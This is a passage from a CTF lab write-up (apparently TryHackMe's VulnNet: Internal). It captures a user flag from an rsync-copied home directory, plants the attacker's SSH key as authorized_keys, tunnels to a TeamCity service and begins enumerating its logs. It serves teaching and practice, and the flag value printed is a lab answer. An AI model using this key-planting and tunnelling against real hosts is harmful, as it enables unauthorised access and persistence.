 - Output is enourmous here but now you have full `sys-internal` directory on your local machine. Go through files/directories and you'll find third flag.

  ```
  cd rsync
  cd sys-internals                                                                                                                  
  cat user.txt   
  THM{da7c20696831f253e0afaca8b83c07ab}
  ```

- Now create a pair of SSH keys since we will need it for logging with SSH.

  ```
  ssh-keygen -t rsa                                 
  Generating public/private rsa key pair.
  [SNIP!]
  
  ls
  Desktop  Documents  Downloads  internals  internals.pub  Music  Pictures  Public  Templates  user.txt  Videos
  
  cat internals.pub | tee authorized_keys && chmod 600 authorized_keys
  ssh-rsa [SNIP!] your@kali
  ```

- Now login with SSH and port-forward server from port 8111 to your local machine.

  ```
  chmod 600 internals

  ssh -i internals -L 8111:127.0.0.1:8111 sys-internal@10.10.255.144
  
  Enter passphrase for key 'internals': 
  Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)
  
  [SNIP!]
  
  Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
  applicable law.
  
  sys-internal@vulnnet-internal:~$ whoami
  sys-internal
  sys-internal@vulnnet-internal:~$ id
  uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
  ```

- Passphrase is the passphrase you set up when creating pair of keys. Now visit the `http://127.0.0.1:8111/` and you'll see a login page. I tried numerous different option but nothing worked so I did more enumeration lol.

  ```
  sys-internal@vulnnet-internal:/TeamCity$ cd logs
  sys-internal@vulnnet-internal:/TeamCity/logs$ ls -al
  total 464
  drwxr-xr-x  2 root root   4096 May 19 20:20 .
  drwxr-xr-x 12 root root   4096 Feb  6  2021 ..
  -rw-r-----  1 root root  12493 Feb  6  2021 catalina.2021-02-06.log
  -rw-r-----  1 root root   8132 Feb  7  2021 catalina.2021-02-07.log
  -rw-r-----  1 root root   6037 May 19 20:20 catalina.2025-05-19.log
  -rw-r--r--  1 root root 164444 May 19 20:39 catalina.out
  -rw-r-----  1 root root      0 Feb  6  2021 host-manager.2021-02-06.log
  -rw-r-----  1 root root      0 Feb  7  2021 host-manager.2021-02-07.log
  -rw-r-----  1 root root      0 May 19 20:17 host-manager.2025-05-19.log
  -rw-r-----  1 root root      0 Feb  6  2021 localhost.2021-02-06.log
  -rw-r-----  1 root root      0 Feb  7  2021 localhost.2021-02-07.log
  -rw-r-----  1 root root      0 May 19 20:17 localhost.2025-05-19.log
  -rw-r-----  1 root root      0 Feb  6  2021 manager.2021-02-06.log
  ```